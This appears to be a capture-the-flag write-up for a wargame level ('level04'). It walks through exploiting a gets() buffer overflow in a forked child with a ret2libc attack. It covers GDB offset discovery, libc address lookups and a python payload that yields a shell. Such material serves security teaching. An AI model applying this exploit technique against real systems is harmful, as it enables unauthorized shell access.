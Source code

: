 
# Level04 - Exploiting a Buffer Overflow with Ret2libc

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level04
Give me some shellcode, k
coucou
child is exiting...
```

The program asks for input and then exits.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The program performs a `fork()`, and the child process reads input using `gets()`. The parent process uses `ptrace` to monitor the child, checking if it calls the `exec` function.

```assembly
0x080487f6 <+302>: mov    DWORD PTR [esp],0x8048931
0x080487fd <+309>: call   0x8048500 <puts@plt>
```

If `exec()` is called, the program outputs `"no exec() for you"`.

## Step 3: Exploiting the Buffer Overflow

We can overflow the `gets()` buffer in the child process. Use a long input string to find the offset to control EIP (Instruction Pointer).

```bash
$ gdb -q ./level04
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

The program segfaults, indicating control of EIP.

### Finding the Offset

```bash
(gdb) r
Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2283]
0x41326641 in ?? ()
```
We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
We find that EIP is overwritten at offset `156`.

## Step 4: Ret2libc Attack

We will use a Ret2libc attack by calling `system("/bin/sh")`. We need the addresses of `system()`, `exit()`, and the string `"/bin/sh"`.

### Finding Required Addresses

1. **`system` Address**:
   ```bash
   (gdb) info function system
   0xf7e6aed0  system
   ```

2. **`exit` Address**:
   ```bash
   (gdb) info function exit
   0xf7e5eb70  exit
   ```

3. **`/bin/sh` String**:
   ```bash
   (gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
   0xf7f897ec
   ```

### Building the Payload

Construct the payload with the addresses found:

```bash
("B" * 156) + system + exit + "/bin/sh"
```

### Executing the Exploit

Save the payload to a file and run the program:

```bash
$ python -c '(print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7")' > /tmp/payload4
$ cat /tmp/payload4 - | ./level04
Give me some shellcode, k
whoami
level05
```

## Summary

- The program is vulnerable to a buffer overflow via `gets()`.
- Using the overflow, we performed a Ret2libc attack to call `system("/bin/sh")`.
- This allowed us to bypass security checks and gain shell access.

This exercise demonstrates a common technique for exploiting buffer overflows when direct execution is restricted.
